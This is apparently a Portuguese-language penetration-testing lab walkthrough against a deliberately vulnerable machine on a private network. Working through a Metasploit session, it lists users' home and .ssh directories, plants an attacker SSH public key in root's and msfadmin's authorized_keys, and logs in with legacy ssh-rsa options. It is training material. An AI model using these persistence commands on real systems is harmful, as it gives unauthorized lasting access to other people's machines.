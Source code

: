 # 03. Ganhando acesso direto ao SSH

Após realizar a etapa de exploração de vulnerabilidade de um dos serviços presentes na nossa máquina alvo (leia <a href="/steps/03_ganhando_acesso_direto_ao_ssh.md">03. Ganhando acesso direto ao <b>SSH</b></a> para entender o fluxo de pensamento até aqui), vamos procurar uma conexão ao <i><b>console/terminal</b></i> da máquina mais estável, nos conectando diretamente ao <i><b>SSH da mesma.</b></i>

Após a gente conseguir acesso ao <i><b>console</b></i> da máquina, vamos procurar por mais usuários nos quais podemos realizar o acesso via <i><b>SSH</b></i>:

```
ls /home
ftp
msfadmin
service
user
```

<b>Aparentemente</b>, além do usuário `root`, temos os usuários `ftp`, `msfadmin`, `service` e `user`.

Antes de qualquer coisa, vamos criar uma chave ssh para usarmos somente nesse cenário (<i>por segurança, alguns dados foram editados</i>):

```
$ ssh-keygen -t rsa -b 4096 -C "local@pentest"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): local_pentest
Enter passphrase for "local_pentest" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in local_pentest
Your public key has been saved in local_pentest.pub
The key fingerprint is:
SHA256:97DsZKl2Q39fDWb1Fucxo3t9/q9c5epgRIG2zO7Sdyo local@pentest
The key's randomart image is:
+---[RSA 4096]----+
|           ..    |
|          o  .   |
|         + ..  =o|
|          +.  .oB|
|        S.o ..+ =|
|         oo* o.++|
|         +*.+. .B|
|        o=E.oo++o|
|       ..o.+.==oB|
+----[SHA256]-----+
```

Chave ssh criada com sucesso. Vamos voltar a sessão que a gente fez no <i><b>Metasploit</b></i> e vamos importar essa chave (a parte pública) para dentro da nossa máquina alvo:

```
upload .ssh/local_pentest.pub /tmp/local_pentest.pub
[*] Max line length is 65537
[*] Writing 750 bytes in 1 chunks of 2853 bytes (octal-encoded), using printf
[+] File </tmp/local_pentest.pub> upload finished
chmod 600 /tmp/local_pentest.pub
```

Vamos averiguar quais desses usuários a gente pode realmente habilitar o acesso ssh com a nossa chave:

```
ls -a /root
.
..
.Xauthority
.bash_history
.bashrc
.config
.filezilla
.fluxbox
.gconf
.gconfd
.gstreamer-0.10
.mozilla
.profile
.purple
.rhosts
.ssh
.vnc
Desktop
reset_logs.sh
vnc.log
ls /home
ftp
msfadmin
service
user
ls -a /home/ftp
.
..
ls -a /home/msfadmin
.
..
.bash_history
.distcc
.gconf
.gconfd
.mysql_history
.profile
.rhosts
.ssh
.sudo_as_admin_successful
server_dump_mysql.sql
server_dump_postgres.sql
vulnerable
ls -a /home/service
.
..
.bash_logout
.bashrc
.profile
ls -a /home/user
.
..
.bash_history
.bash_logout
.bashrc
.profile
.ssh
```

Somente os usuários `root`, `msfadmin` e `user` possuem diretórios `.ssh`, então vamos copiar nossa chave para esses usuários:

```
cp /tmp/local_pentest.pub /root/.ssh/local_pentest.pub
cp /tmp/local_pentest.pub /home/msfadmin/.ssh/local_pentest.pub
cp /tmp/local_pentest.pub /home/user/.ssh/local_pentest.pub
```

Tentamos acessar agora o SSH com algum dos usuários com o comando:

`$ ssh msfadmin@192.168.56.102`

Sem sucesso, o SSH não chega nem a retornar nada. Vamos ativar a verbosidade do SSH do cliente para tentar ver o que está acontecendo:

```
$ ssh msfadmin@192.168.56.105 -v
debug1: OpenSSH_10.0p2 Debian-8, OpenSSL 3.5.3 16 Sep 2025
debug1: Reading configuration data /home/pqpmath3ws/.ssh/config
debug1: /home/pqpmath3ws/.ssh/config line 1: Applying options for *
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: Reading configuration data /etc/ssh/ssh_config.d/20-systemd-ssh-proxy.conf
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 192.168.56.105 [192.168.56.105] port 22.
debug1: Connection established.
debug1: identity file /home/pqpmath3ws/.ssh/id_rsa type 0
debug1: identity file /home/pqpmath3ws/.ssh/id_rsa-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa_sk type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ecdsa_sk-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519 type 3
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519_sk type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_ed25519_sk-cert type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_xmss type -1
debug1: identity file /home/pqpmath3ws/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_10.0p2 Debian-8
debug1: Remote protocol version 2.0, remote software version OpenSSH_4.7p1 Debian-8ubuntu1
debug1: compat_banner: match: OpenSSH_4.7p1 Debian-8ubuntu1 pat OpenSSH_2*,OpenSSH_3*,OpenSSH_4* compat 0x00000002
debug1: Authenticating to 192.168.56.105:22 as 'msfadmin'
debug1: load_hostkeys: fopen /etc/ssh/ssh_known_hosts: No such file or directory
debug1: load_hostkeys: fopen /etc/ssh/ssh_known_hosts2: No such file or directory
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: diffie-hellman-group-exchange-sha256
debug1: kex: host key algorithm: (no match)
Unable to negotiate with 192.168.56.105 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

Ah, agora conseguimos entender o problema que estamos tendo aqui: O servidor roda uma versão muito antiga do OpenSSH <i>(4.7.1p)</i> e usa dois formatos que já foram desabilitados por padrão no OpenSSH mais atual (<i><b>ssh-rsa</b></i> e <i><b>ssh-dss</b></i>). Como conseguir o acesso agora, sem mexer na máquina alvo? Simples - passemos uma configuração extra na linha de comando para permitir a conexão a esses modos mais antigos e descontinuados. Para nos conectarmos, precisaremos passar mais alguns argumentos, ficando assim o comando:

`ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.56.105`

onde,

- `-o HostKeyAlgorithms=+ssh-rsa` adiciona a opção `HostKeyAlgorithms` com o valor do padrão do ssh do server - `ssh-rsa`
- `-o PubkeyAcceptedKeyTypes=+ssh-rsa` adiciona a opção  `PubkeyAcceptedKeyTypes` com o valor do padrão ssh do server `ssh-rsa`.

Tentamos nos conectar, e mais uma vez, falhamos, só que agora o servidor pede uma senha (que a gente ainda não tem). O que vamos fazer?

Vamos procurar pela existência de um arquivo chamado <i><b>authorized_keys</b></i> nos usuários da nossa máquina alvo, pelo <i><b>Metasploit</b></i>:

```
ls -a /root/.ssh/
.
..
authorized_keys
known_hosts
local_pentest.pub
ls -a /home/msfadmin/.ssh/
.
..
authorized_keys
id_rsa
id_rsa.pub
local_pentest.pub
ls /home/user/.ssh/
id_dsa
id_dsa.pub
local_pentest.pub
```

Somente os usuários `root` e `msfadmin` possuem tal arquivo. Vamos copiar o valor da chave pública pra dentro desses arquivos agora:

```
cat /tmp/local_pentest.pub >> /root/.ssh/authorized_keys
cat /tmp/local_pentest.pub >> /home/msfadmin/.ssh/authorized_keys
```

Executamos o mesmo comando novamente:

`ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.56.105`

E <b>VOALÀ!</b> - Acesso SSH garantido ao nosso servidor alvo. Agora o céu é o limite. E vamos com tudo para nossa próxima etapa!